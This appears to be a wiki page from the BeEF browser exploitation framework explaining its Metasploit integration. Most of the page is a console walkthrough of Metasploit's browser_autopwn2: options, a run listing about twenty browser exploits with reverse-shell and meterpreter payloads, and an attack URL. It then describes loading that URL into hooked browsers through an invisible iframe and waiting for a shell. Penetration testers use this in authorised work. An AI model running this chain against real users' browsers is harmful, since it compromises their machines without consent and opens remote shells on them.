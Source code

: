 ## Introduction

BeEF supports Metasploit integration, and only requires some simple [[configuration|Configuration]] to get up and running. Once running Metasploit modules can be run directly through the BeEF interface.

#### Table of Contents
* [Metasploit Modules](#metasploit-modules)
* [Browser Autopwn](#browser-autopwn)

## Metasploit Modules

After launching Metasploit, its modules can be found in the BeEF command modules tree:

[[Images/msf2.png|align=center]]

All regular payload CLI arguments have their own form fields in the module's interface:

[[Images/msf3.png|align=center]]

Now, sit back and wait for the exploit to work:

[[Images/msf6.png|align=center]]

## Browser Autopwn

While the feature is not directly integrated in BeEF, you can easily use the Browser Autopwn function of Metasploit with BeEF.

```
msf > use auxiliary/server/browser_autopwn2
msf auxiliary(browser_autopwn2) > show options

Module options (auxiliary/server/browser_autopwn2):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   EXCLUDE_PATTERN                   no        Pattern search to exclude specific modules
   INCLUDE_PATTERN                   no        Pattern search to include specific modules
   Retries          true             no        Allow the browser to retry the module
   SRVHOST          0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT          8080             yes       The local port to listen on.
   SSL              false            no        Negotiate SSL for incoming connections
   SSLCert                           no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                           no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name       Description
   ----       -----------
   WebServer  Start a bunch of modules and direct clients to appropriate exploits

```

First, launch browser_autopwn or browser_autopwn2 in Metasploit and get the BrowserAutoPwn URL, for example:

```
msf auxiliary(browser_autopwn2) > run -z 
[*] Auxiliary module execution completed

[*] Searching BES exploits, please wait...
msf auxiliary(browser_autopwn2) >
[*] Starting exploit modules...
[*] Starting listeners...
[*] Time spent: 6.01071043
[*] Using URL: http://0.0.0.0:8080/5WNrYZjr
[*] Local IP: http://10.1.1.175:8080/5WNrYZjr

[*] The following is a list of exploits that BrowserAutoPwn will consider using.
[*] Exploits with the highest ranking and newest will be tried first.

Exploits
========

 Order  Rank       Name                                       Payload
 -----  ----       ----                                       -------
 1      Excellent  webview_addjavascriptinterface             android/meterpreter/reverse_tcp on 4443
 2      Excellent  samsung_knox_smdm_url                      android/meterpreter/reverse_tcp on 4443
 3      Excellent  firefox_svg_plugin                         firefox/shell_reverse_tcp on 4442
 4      Excellent  firefox_webidl_injection                   firefox/shell_reverse_tcp on 4442
 5      Excellent  firefox_tostring_console_injection         firefox/shell_reverse_tcp on 4442
 6      Excellent  firefox_proto_crmfrequest                  firefox/shell_reverse_tcp on 4442
 7      Great      adobe_flash_net_connection_confusion       windows/meterpreter/reverse_tcp on 4444
 8      Great      adobe_flash_shader_drawing_fill            windows/meterpreter/reverse_tcp on 4444
 9      Great      adobe_flash_shader_job_overflow            windows/meterpreter/reverse_tcp on 4444
 10     Great      adobe_flash_hacking_team_uaf               windows/meterpreter/reverse_tcp on 4444
 11     Great      adobe_flash_uncompress_zlib_uaf            windows/meterpreter/reverse_tcp on 4444
 12     Great      adobe_flash_opaque_background_uaf          windows/meterpreter/reverse_tcp on 4444
 13     Great      adobe_flash_pixel_bender_bof               windows/meterpreter/reverse_tcp on 4444
 14     Great      adobe_flash_nellymoser_bof                 windows/meterpreter/reverse_tcp on 4444
 15     Great      adobe_flash_copy_pixels_to_byte_array      windows/meterpreter/reverse_tcp on 4444
 16     Great      adobe_flash_worker_byte_array_uaf          windows/meterpreter/reverse_tcp on 4444
 17     Great      adobe_flash_casi32_int_overflow            windows/meterpreter/reverse_tcp on 4444
 18     Great      adobe_flash_domain_memory_uaf              windows/meterpreter/reverse_tcp on 4444
 19     Good       adobe_flash_uncompress_zlib_uninitialized  windows/meterpreter/reverse_tcp on 4444
 20     Good       wellintech_kingscada_kxclientdownload      windows/meterpreter/reverse_tcp on 4444
 21     Good       ms14_064_ole_code_execution                windows/meterpreter/reverse_tcp on 4444

[+] Please use the following URL for the browser attack:
[+] BrowserAutoPwn URL: http://10.1.1.175:8080/5WNrYZjr
[*] Server started.
[*] Starting the payload handler...
```

Note the BrowserAutoPwn URL: `http://10.1.1.175:8080/5WNrYZjr`

Then use the "Create Invisible Iframe" command module to load the autopwn webpage in an iframe:

[[Images/msf8.png|align=center]]

You just have to wait for a shell :

[[Images/msf9.png|align=center]]

***

[[Previous|Network-discovery]] | [[Next|Tunneling]] 